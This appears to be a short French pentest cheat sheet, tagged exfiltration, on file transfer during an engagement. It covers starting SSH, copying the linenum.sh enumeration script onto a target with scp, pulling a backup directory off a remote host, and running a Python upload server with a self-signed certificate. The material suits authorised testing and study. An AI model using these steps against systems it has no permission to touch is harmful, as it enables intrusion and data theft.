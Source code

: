 ## Depuis Target

## Activer et lancer serveur SSH

```shell
sudo systemctl enable ssh
sudo systemctl start ssh
```

## Check du port 22 en écoute

```sh
netstat -lnpt
```

## Download du fichier depuis target (créer un compte temporaire) 

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```


## Depuis Client

```
scp -r -i file.pem user@192.10.10.10:/home/backup /home/user/Desktop/
```


---
# #UPLOADS #Exfiltration


# HTTP UPLOADS

## Créer serveur d'upload python (Option 1)

```shell
pip3 install uploadserver
```

```shell
python3 -m uploadserver
```

### SSL pour chiffrer la communication

Créer le certificat

```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
